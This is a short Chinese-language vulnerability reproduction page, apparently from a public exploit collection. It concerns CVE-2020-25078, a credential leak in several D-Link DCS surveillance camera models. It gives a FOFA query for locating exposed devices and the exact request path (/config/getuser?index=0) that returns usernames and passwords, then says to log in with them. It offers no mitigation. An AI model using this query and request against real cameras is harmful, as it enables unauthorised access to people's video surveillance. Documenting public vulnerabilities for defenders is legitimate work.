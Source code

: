 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

<a-checkbox checked>DCS-2530L</a-checkbox></br>
<a-checkbox checked>DCS-2670L</a-checkbox></br>
<a-checkbox checked>DCS-4603</a-checkbox></br>
<a-checkbox checked>DCS-4622</a-checkbox></br>
<a-checkbox checked>DCS-4701E</a-checkbox></br>
<a-checkbox checked>DCS-4703E</a-checkbox></br>
<a-checkbox checked>DCS-4705E</a-checkbox></br>
<a-checkbox checked>DCS-4802E</a-checkbox></br>
<a-checkbox checked>DCS-P703</a-checkbox></br>

## FOFA

<a-checkbox checked>app="D_Link-DCS-2530L"</a-checkbox></br>

## 漏洞复现



访问登录页面如下



![img](../../../.vuepress/public/img/link-9.png)



出现漏洞的 Url 为, 其中泄露了账号密码



```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![img](../../../.vuepress/public/img/link-10.png)



使用泄露的账号密码登陆系统



![img](../../../.vuepress/public/img/link-11.png)